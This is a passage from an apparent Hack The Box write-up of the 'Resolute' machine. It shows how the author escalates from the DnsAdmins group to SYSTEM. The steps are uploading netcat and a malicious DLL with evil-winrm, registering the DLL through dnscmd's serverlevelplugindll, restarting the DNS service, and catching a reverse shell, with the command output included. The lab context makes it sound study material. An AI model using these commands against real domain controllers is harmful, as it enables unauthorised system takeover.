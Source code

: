 ```c#
	return TRUE;
}
```
To exploit this we first have to get the netcat.exd and our mallicious dll onto the system, for this used to upload function of evil-winrm:

```
upload /root/htb/resolute/nc.exe
Info: Uploading /root/htb/resolute/nc.exe to C:\windows\system32\spool\drivers\color\nc.exe

Data: 53248 bytes of 53248 bytes copied

Info: Upload successful!
```
and
```
upload /root/htb/resolute/exploit.dll
Info: Uploading /root/htb/resolute/pwn.dll to C:\windows\system32\spool\drivers\color\exploit.dll

Data: 305604 bytes of 305604 bytes copied

Info: Upload successful!
```
Now we are only 3 Commands away from our shell as SYSTEM, first inject the dll into the DNS-Service

```
cmd /c 'dnscmd RESOLUTE /config /serverlevelplugindll C:\Windows\System32\spool\drivers\color\exploit.dll'

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```
This dll will be run once the DNS-Service restarts, which we can force as a DnsAdmin with the follwing commands:
```
cmd /c "sc stop dns"
cmd /c "sc start dns"
```

Now all thats left is to use netcat on your host maschine and wait for the incomming connection from the DC

```
nc -lvnp 9111
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9111
Ncat: Listening on 0.0.0.0:9111
Ncat: Connection from 10.10.10.169.
Ncat: Connection from 10.10.10.169:56778.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

# 0x3 Closing Words

This box actually took me forever, the second Windows box I have owned so far and the first time I have ever worked with DLLs. I did learn a lot from it and I personally think this was an awesome box!
